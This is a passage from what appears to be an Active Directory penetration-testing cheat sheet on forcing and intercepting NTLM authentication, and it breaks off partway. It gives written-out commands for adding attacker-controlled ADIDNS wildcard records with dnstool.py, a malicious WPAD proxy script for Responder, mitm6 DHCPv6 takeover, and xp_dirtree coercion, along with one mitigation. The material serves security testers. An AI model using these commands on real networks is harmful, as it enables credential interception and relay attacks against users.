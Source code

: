 					dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '@' --action 'query' 'DomainController'
		* Automated
			* <details><summary>Recommended: Responder (Click to expand)</summary><p>

					.
		* Manual
			* <details><summary>Recommended: krbrelayx.py's dnstool.py			 (Click to expand)</summary><p>
				* query a node

						dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController

				* add a node and attach a record

						dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
	* DHCP
		* <details><summary>References (Click to expand)</summary><p>
			* [https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)
			* [https://twitter.com/pythonresponder/status/1428323316104900608](https://twitter.com/pythonresponder/status/1428323316104900608)
			* [https://twitter.com/PythonResponder/status/1451657791970623490](https://twitter.com/PythonResponder/status/1451657791970623490)
		* <details><summary>Recommended: Responder (Click to expand)</summary><p>
			1. Edit `Responder.conf` to update the WPADScript setting with the below setting. Replace **REPLACEME** with your Responder IP address.

					WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY REPLACEME:3128; PROXY REPLACEME:3141; DIRECT';}
			1. Run Responder. `-d` is the essential flag for this attach, but the additional flags come recommended by the tool author.

					python Responder.py -I <interface> -rPdv
		* <details><summary>Prevention (Click to expand)</summary><p>
			* Microsoft is releasing a new registry key for DHCP WPAD: 
				* `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings`
				* `"DisableProxyAuthenticationSchemes"`-> `0x00000004` = DISABLE NTLM
				* Only implemented on Windows 2022 & 11 right now.
	* IPv6
		* <details><summary>Overview (Click to expand)</summary><p>
			* The WPAD file location is only requested via DNS (after MS16-077 update)
			* DNS takeover via IPv6. mitm6 will request an IPv6 address via DHCPv6
		* <details><summary>mitm6 (Click to expand)</summary><p>

				mitm6 --domain $DOMAIN -i $NETWORK_INTERFACE
			* ntlmrelay must use `-6` for relaying
	* <details><summary>SQL (Click to expand)</summary><p>
		* `xp_dirtree` function forces SMB authentication from SQL user
* Domain User Credentials Required
	* Abuse RPC
		* General or Many Methods
			* <details><summary>coercer.py (Click to expand) -<br />[https://github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)</summary><p>
				* Overview
					* The tool author has enumerated many potential forced authentication endpoints and produced PoCs for each case. The instances need research, but if you run out of options, it may be worth trying. -<br />[https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
				* Example
